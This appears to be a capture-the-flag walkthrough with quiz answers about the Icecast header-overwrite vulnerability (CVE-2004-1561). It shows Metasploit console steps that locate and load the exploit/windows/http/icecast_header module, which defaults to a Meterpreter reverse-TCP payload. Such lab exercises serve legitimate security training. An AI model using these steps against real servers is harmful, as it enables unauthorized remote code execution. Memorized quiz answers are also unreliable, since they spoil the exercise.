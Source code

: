 
cvedetails.com > search by product > Icecast , RCE 7.5 impacto

https://www.cvedetails.com/cve/CVE-2004-1561/

Ans> 

6.4

### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

Ans> 

CVE-2004-1561

### Now that we've found our vulnerability, let's find our exploit. For this section of the room, we'll use the Metasploit module associated with this exploit. Let's go ahead and start Metasploit using the command `msfconsole`

```
msfconsole -q

msf6 > search Icecast

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/icecast_header

[*] Using exploit/windows/http/icecast_header
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp





```

### After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? If you are not familiar with metasploit, take a look at the Metasploit module.

```
exploit/windows/http/icecast_header
```
